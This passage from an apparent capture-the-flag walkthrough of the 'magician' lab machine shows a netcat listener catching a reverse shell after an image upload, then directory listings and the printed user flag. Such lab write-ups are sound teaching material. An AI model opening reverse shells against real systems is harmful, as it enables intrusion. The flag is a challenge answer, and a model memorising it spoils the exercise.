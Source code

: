 open a listener and upload the image using the web form. A reverse shell spawns in our listener window:

~~~
kali@kali:/data/magician/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.100.95] 60864
bash: cannot set terminal process group (957): Inappropriate ioctl for device
bash: no job control in this shell
magician@magician:/tmp/hsperfdata_magician$ id
id
uid=1000(magician) gid=1000(magician) groups=1000(magician)
~~~

## User flag

Let's get the user flag:

~~~
magician@magician:/tmp/hsperfdata_magician$ cd /home
cd /home
magician@magician:/home$ ll
ll
total 12
drwxr-xr-x  3 root     root     4096 Jan 30 10:43 ./
drwxr-xr-x 24 root     root     4096 Jan 30 10:31 ../
drwxr-xr-x  5 magician magician 4096 Feb 13 07:19 magician/
magician@magician:/home$ cd magician
cd magician
magician@magician:~$ ls -la
ls -la
total 17204
drwxr-xr-x 5 magician magician     4096 Feb 13 07:19 .
drwxr-xr-x 3 root     root         4096 Jan 30 10:43 ..
lrwxrwxrwx 1 magician magician        9 Feb  6 13:38 .bash_history -> /dev/null
-rw-r--r-- 1 magician magician      220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 magician magician     3771 Apr  4  2018 .bashrc
drwx------ 2 magician magician     4096 Jan 30 10:43 .cache
drwx------ 3 magician magician     4096 Jan 30 10:43 .gnupg
-rw-r--r-- 1 magician magician      807 Apr  4  2018 .profile
-rw-r--r-- 1 magician magician        0 Jan 30 10:43 .sudo_as_admin_successful
-rw------- 1 magician magician     7546 Jan 31 03:50 .viminfo
-rw-r--r-- 1 root     root     17565546 Jan 30 11:55 spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
-rw-r--r-- 1 magician magician      170 Feb 13 07:19 the_magic_continues
drwxr-xr-x 2 root     root         4096 Feb  5 05:14 uploads
-rw-r--r-- 1 magician magician       24 Jan 30 11:30 user.txt
magician@magician:~$ cat user.txt
cat user.txt
THM{simsalabim_hex_hex}
~~~

# root.txt
